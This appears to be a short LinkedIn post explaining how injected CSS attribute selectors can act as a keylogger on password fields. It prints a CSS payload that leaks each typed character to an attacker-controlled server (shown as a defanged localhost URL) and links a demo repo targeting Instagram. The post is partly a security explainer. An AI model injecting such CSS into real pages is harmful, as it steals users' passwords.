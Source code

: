 Did you know you can use [#CSS](https://www.linkedin.com/feed/hashtag/?keywords=css&highlightedUpdateUrns=urn%3Ali%3Aactivity%3A6996842844975964161) as a Keylogger? So those HTML injections may just serve a purpose after all!  
   
I came across this attack for the first time a couple of days ago and found it super interesting. It works by using the below code:  
   
<style>  
input[type="password"][value$="a"] {  
 background-image: url("http[:]//localhost[:]3000/a");  
}  
   
input[type="password"][value$="b"] {  
  background-image: url("http[:]//localhost[:]3000/b");  
}  
</style>  
   
This code is looking at input fields of the type ‘password’. Any time a character is entered into a password field, the CSS Attribute Selector correlated to that character will be triggered, which loads an attacker domain with the character requested in the URL. So, an attacker just has to review their web server access logs to see, character by character, the user’s entire password!  
   
This exotic attack vector does have some limitations. Per the article linked in the comments:  
   
-It only works with an initial value being set on an input, and not per keypress nor after blurring the field.  
  
-It’s not triggered for values that have been autocompleted by the browser’s credentials manager or a password manager tool.  
  
-It cannot handle repeat characters, as the browser won’t re-request the background image in that case  
  
-Due to parallelism, it’s not guaranteed for the requests to be received by the server in the order they were typed in  
  
But since React (by default) updates the input value upon every change, this attack is worth stashing in your arsenal. Here is a repo that demos this with Instagram: [https://lnkd.in/ejzHZwCg](https://lnkd.in/ejzHZwCg)  
   
Hit me with a like if you didn’t know this was possible!